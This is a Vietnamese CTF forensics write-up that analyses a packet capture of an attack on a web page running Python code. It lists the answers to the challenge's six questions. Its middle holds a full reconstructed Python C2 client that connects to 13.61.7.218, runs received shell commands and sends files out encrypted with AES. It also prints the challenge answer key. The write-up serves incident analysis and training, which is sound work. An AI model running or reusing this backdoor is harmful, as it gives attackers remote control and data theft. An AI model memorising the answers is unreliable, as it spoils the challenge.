# _TOOLPIE_ _(FORENSICS)_


Bài cho 1 file pcapng, nhiệm vụ là phân tích và trả lời 6 câu hỏi



Mới đầu vào, mình follow tcp.stream, vì chỉ có 6 luồng nên mình sẽ ngồi phân tích hết

Đầu tiên là stream 0, thấy được 1 GET request từ IP 194.59.6.66 đến 1 HOST: 13.61.177.227, với yêu cả trả về trang chủ của 1 trang web



Trong phần nav của trang web có 2 liên kết là idex.html và script.html

Kết hợp với đó là mình export objects HTML và save all



Ta thử truy cập vào script.html xem sao



Đây giống như là một trang web cho người dùng thực hiện nhập mã Python rồi nhấn Execute để thực thi

Chưa có gì đặc biệt lắm, nên cùng đi đến với stream thứ 1

Tiếp tục là GET request từ 194.59.6.66 đối với server và ở gần cuối có 1 lệnh GET request tới /script.html



Khi ng dùng nhập mã và thực thi trên trang này thì nó sẽ gửi 1 yêu cầu POST/execute đến server

Và ngay sau đó là stream 3, vẫn tiếp tục là IP đó đã nhập mã và thực thi, nhìn script Python này uy tín vcl :v



Sau đó, stream 4 thì server đã thực hiện gửi `ec2amaz-bktvi3e\administrator` và có những phản hồi từ 1 IP __khác__ là 13.61.7.128. Đến đây mình sẽ có 1 số nhận định sau

- Thứ nhất, IP chịu trách nhiệm cho việc xâm phạm web của câu hỏi 1 đề cập chắc chắn là 194.59.6.66

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66
```

- Thứ hai, Attacker có thể đã gửi payload Python độc hại đến /execute, khiến server chạy mã độc. Nên /execute chính là enpoint giúp trả lời cho câu 2
```
2. What is the name of the endpoint exploited by the attacker?
Answer: execute
```

- Thứ ba, IP 13.61.7.128 rất có thể là máy chủ C2 (Command & Control), nơi attacker có thể điều khiển hệ thống đã bị khai thác và ở câu 4 cũng có hỏi liên quan đến C2 nhưng mình nhập không đúng do thiếu port ( mình sẽ phân tích tiếp đoạn này ở bên dưới)

Tiếp theo, mình sẽ đi phân tích ở đoạn mã Python mà attacker đã gửi đi, đoạn script thực thi bị nén `bz2` sau đó là `marshal.loads` rồi `exec`

Giải nén xong, mình đã đưa về được file `.pyc` nhưng kh thể đưa về mã nguồn `.py` được, sau đó AI có hỗ trợ mình có thể đưa về bytecode



Ngồi đọc 1 lúc, thì mình thấy được đáp án cho câu 3



```
3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-Fuscate
```

Vì bytecode quá dài, và mình méo hiểu gì nên nhờ AI đưa về .py theo đúng logic

```python
import os, socket, threading, time, random, string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'

def enc_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return cypher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))

def dec_mes(mes, key):
    if mes == b'': return mes
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return unpad(cypher.decrypt(mes), 16)

def receive_file(k):
    client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client2.connect(('13.61.7.218', 54163))
    client2.send(k.encode())
    received = dec_mes(client2.recv(BUFFER_SIZE), k).decode().split(SEPARATOR)
    filename, filesize = received[0], int(received[1])
    client2.send(enc_mes('ok2', k))
    msg = b''
    while len(msg) < filesize:
        msg += client2.recv(BUFFER_SIZE)
    with open(filename, 'wb') as f:
        f.write(dec_mes(msg, k))
    client2.close()

def receive(client, k):
    while True:
        try:
            msg = dec_mes(client.recv(1024), k)
            message = msg.decode()
            if message == 'check':
                client.send(enc_mes('check-ok', k))
            elif message == 'send_file':
                threading.Thread(target=receive_file, args=(k,)).start()
            elif message == 'get_file':
                client.send(enc_mes('ok', k))
                path = dec_mes(client.recv(1024), k).decode()
                with open(path, 'rb') as f:
                    data = enc_mes(f.read(), k)
                client.send(str(len(data)).encode())
                client.recv(1024)
                client.sendall(data)
            elif message:
                answer = os.popen(message).read()
                enc_answer = enc_mes(answer, k)
                client.send(str(len(enc_answer)).encode())
                if client.recv(1024).decode() == 'ok':
                    client.sendall(enc_answer)
        except:
            client.close()
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(('13.61.7.218', 55155))
            k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(f"{user}{SEPARATOR}{k}".encode())
            time.sleep(60)

if __name__ == '__main__':
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
    client.send(f"{user}{SEPARATOR}{k}".encode())
    threading.Thread(target=receive, args=(client, k)).start()
```

- Chương trình này là một client kết nối tới một C&C (có địa chỉ IP và cổng cố định: 13.61.7.218:55155), kết hợp với những phân tích trc đó thì đã có đáp án cho câu 4
```
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155
```

Sau khi kết nối tới C2 server xong thì thực hiện:
- Lấy thông tin người dùng thông qua whoami

- Thông tin này được gửi tới server cùng với khóa ngẫu nhiên (user + SEPARATOR + k), k chính là khóa để thực hiện mã hóa AES-CBC như trong script trên. Từ đây có câu trả lời cho câu 5\



```
5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq
```

- Dùng AES-CBC để mã hóa dữ liệu gửi đi và giải mã dữ liệu gửi về

Mình sẽ dùng key đó để decrypt dữ liệu gửi đi tại đây là sẽ có đáp án cho câu 6



Lấy dữ liệu ở dạng Raw, rồi lưu vào 1 file riêng

Script
```python
from Crypto.Cipher import AES

def decrypt_file(input_file: str, output_file: str, key: str):
    # Đọc dữ liệu đã mã hóa từ file
    with open(input_file, "rb") as f:
        ciphertext = f.read()

    # Sử dụng key.encode() làm IV (giống như quá trình mã hóa)
    iv = key.encode()

    # Tạo đối tượng giải mã AES-CBC
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv)

    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)

    # Loại bỏ padding (PKCS7)
    pad_len = decrypted_data[-1]
    decrypted_data = decrypted_data[:-pad_len]

    # Ghi kết quả giải mã ra file
    with open(output_file, "wb") as f:
        f.write(decrypted_data)

    print(f"Giải mã thành công! Đã lưu vào {output_file}")

input_file = "anh"   # File chứa dữ liệu đã mã hóa
output_file = "DONE"  # File để lưu dữ liệu sau khi giải mã
key = "5UUfizsRsP7oOCAq"        # Key giống lúc mã hóa

decrypt_file(input_file, output_file, key)
```



Check MD5



```
6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```

Tổng hợp đáp án

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66

2. What is the name of the endpoint exploited by the attacker?
Answer: execute

3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-fuscate

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155

5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq

6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```


